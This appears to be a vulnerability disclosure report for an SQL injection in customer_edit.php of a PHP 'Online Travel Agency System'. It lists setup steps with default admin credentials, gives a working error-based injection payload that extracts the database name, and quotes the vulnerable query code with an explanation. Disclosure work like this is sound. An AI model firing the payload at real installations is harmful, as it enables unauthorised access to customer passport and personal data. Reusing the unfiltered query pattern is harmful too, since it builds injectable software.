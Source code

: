 # [Online Travel Agency System-SQL Injection-customer_edit.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/customer_edit.php?costomer_id=104`    

**[Vulnerability Location]:** Travel/admin/customer_edit.php

**[Vulnerability Test]:**

1. payload:`costomer_id=104%27%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))--+`

   ![](../../img/20230428161221.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/customer_edit.php

```php
<?php
  $sql="select*from costomer where costomer_id='$_GET[costomer_id]'";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{
	$costomer_id=$row['costomer_id'];
	$full_name=$row['full_name'];
	$son_of=$row['son_of'];
	$status=$row['status'];
	$date_of_birth=$row['date_of_birth'];
	$place_of_birth=$row['place_of_birth'];
	$previous_nationality=$row['previous_nationality'];
	$present_nationality=$row['present_nationality'];
	$sex=$row['sex'];
	$marital_status=$row['marital_status'];
	$sect=$row['sect'];
	$religion =$row['religion'];
	$place_of_issue=$row['place_of_issue'];
	$qualification=$row['qualification'];
	$profession=$row['profession'];
	$home_address=$row['home_address'];
	$telephone_no=$row['telephone_no'];
	$purpose_of_travel=$row['purpose_of_travel'];
	$date_of_passport=$row['date_of_passport'];
	$passport_no=$row['passport_no'];
	$date_of_passport_expiry=$row['date_of_passport_expiry'];
	$duration_of_stay_in_kindom=$row['duration_of_stay_in_kindom'];
	$date_of_arrival =$row['date_of_arrival'];
	$date_of_departure=$row['date_of_departure'];
	$mode_of_payment=$row['mode_of_payment'];
	$relationship=$row['relationship'];
	$destination=$row['destination'];
	$carriers_name=$row['carriers_name'];
	$visa_no=$row['visa_no'];
	$date_of_insertion=$row['date_of_insertion'];
	$inserted_by=$row['inserted_by'];
}
?>
```

The GET parameter `costomer_id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

